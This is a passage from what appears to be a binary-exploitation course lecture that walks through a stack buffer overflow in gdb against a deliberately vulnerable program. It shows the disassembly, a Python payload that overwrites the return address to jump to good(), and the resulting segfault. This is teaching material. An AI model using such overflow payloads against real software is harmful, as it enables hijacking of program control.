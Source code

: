 ``` example
   0x080484d6 <+1>: mov    ebp,esp
   0x080484d8 <+3>: sub    esp,0x48
   0x080484db <+6>: mov    DWORD PTR [ebp-0xc],0x0
   0x080484e2 <+13>: mov    eax,DWORD PTR [ebp+0xc]
   0x080484e5 <+16>: mov    DWORD PTR [esp+0x4],eax
   0x080484e9 <+20>: lea    eax,[ebp-0x2c]
   0x080484ec <+23>: mov    DWORD PTR [esp],eax
   0x080484ef <+26>: call   0x8048360 <strcpy@plt>
=> 0x080484f4 <+31>: jmp    0x8048516 <vuln+65>
   0x080484f6 <+33>: mov    eax,DWORD PTR [ebp-0xc]
   0x080484f9 <+36>: lea    edx,[eax+0x1]
   0x080484fc <+39>: mov    DWORD PTR [ebp-0xc],edx
   0x080484ff <+42>: lea    edx,[ebp-0x2c]
   0x08048502 <+45>: mov    DWORD PTR [esp+0x8],edx
   0x08048506 <+49>: mov    DWORD PTR [esp+0x4],eax
   0x0804850a <+53>: mov    DWORD PTR [esp],0x804860e
   0x08048511 <+60>: call   0x8048350 <printf@plt>
   0x08048516 <+65>: mov    eax,DWORD PTR [ebp-0xc]
   0x08048519 <+68>: cmp    eax,DWORD PTR [ebp+0x8]
   0x0804851c <+71>: jl     0x80484f6 <vuln+33>
   0x0804851e <+73>: leave  
   0x0804851f <+74>: ret    
End of assembler dump.
(gdb) x/x $ebp+0x4
0xbffff63c: 0xc1840408
```

Interesting. All the bytes are there, but they are in reverse! We forgot
that x86 machines use Little Endian, which means that the most
significant byte is in the right most position. Let's reverse the bytes:

``` example
(gdb) run 66 `python -c "import sys; sys.stdout.buffer.write(b'A'*48+b'\xc1\x84\x04\x08')"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/git/si485-binary-exploits/lec/1.2/vulnerable 66 `python -c "print 'A'*48+'\xc1\x84\x04\x08'"`

Breakpoint 8, vuln (n=0, str=0xbffff869 'A' <repeats 48 times>, "\301\204\004\b") at vulnerable.c:21
21   while( i < n ){
(gdb) c
Continuing.
Go Navy!

Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
```

Woohoo! It worked. We got "Go Navy!" to print. But, our program still
had a segmentation fault. Why?

This happened because we were able to change the return address for the
vuln() program which returned control to good() instead of to main(),
but this is not a call instruction. It is more like a jmp instruction.
The difference being that call does more than jmp, in particular, it
will push the return address onto the stack prior to the jmp so that
control can be properly returned. We can do that too, we just need to
write one more address on the stack to where we want good() to return
to. Because we're being bad, why not have it call bad()?
